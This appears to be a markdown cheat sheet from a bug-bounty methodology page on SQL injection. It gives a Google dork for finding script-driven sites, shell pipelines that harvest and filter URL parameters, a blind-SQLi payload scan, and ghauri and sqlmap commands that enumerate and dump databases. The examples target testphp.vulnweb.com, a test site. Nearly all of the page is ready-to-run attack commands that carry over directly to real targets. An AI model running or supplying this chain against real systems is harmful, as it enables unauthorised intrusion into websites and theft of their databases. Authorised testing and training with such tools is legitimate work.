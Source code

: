 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```
<a href="https://github.com/freelancermijan/.gf/blob/main/sqli.json">All SQLi Parameters</a>

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```
<a href="https://github.com/coffinsp/payloads">More payloads</a>

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
